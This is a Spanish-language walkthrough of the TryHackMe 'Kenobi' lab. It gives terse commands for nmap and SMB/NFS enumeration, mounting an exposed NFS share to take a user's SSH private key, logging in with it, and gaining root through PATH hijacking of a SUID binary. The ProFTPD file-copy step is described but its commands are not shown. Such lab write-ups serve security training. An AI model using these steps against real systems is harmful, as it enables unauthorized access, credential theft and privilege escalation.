










TryHackMe
Easy
Linux
SMB
NFS
ProFTPD
SUID
PATH Hijacking
Kenobi
ProFTPD permite copiar id_rsa via NFS; SSH con clave privada; escalada via PATH hijacking en binario SUID.
cat4clysm
Herramientas utilizadas
nmap
smbclient
mount
ssh
Scanning
root@kali:~$
sudo nmap -p- -sS --min-rate 5000 -vvv --open 10.10.229.155 -oG allports
SMB Enumeration
root@kali:~$
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.229.155
root@kali:~$
smbclient //10.10.229.155/anonymous
smbget -R smb://10.10.229.155/anonymous

NFS + ProFTPD - Copia de id_rsa
root@kali:~$
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.229.155
root@kali:~$
telnet 10.10.229.155 21
root@kali:~$
mkdir /mnt/kenobiNFS
sudo mount 10.10.229.155:/var /mnt/kenobiNFS
cd /mnt/kenobiNFS/tmp
cp id_rsa ~/content/id_rsa

root@kali:~$
ssh -i id_rsa kenobi@10.10.229.155
Escalada - SUID PATH Hijacking
root@kali:~$
echo "/bin/bash" > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu
# press 1
Lecciones aprendidas
- ProFTPD con SITE CPFR/CPTO permite copiar archivos del sistema sin autenticacion.
- NFS mal configurado expone el directorio /var completo incluyendo /tmp.
- Los binarios SUID que llaman comandos sin ruta absoluta son vulnerables a PATH hijacking.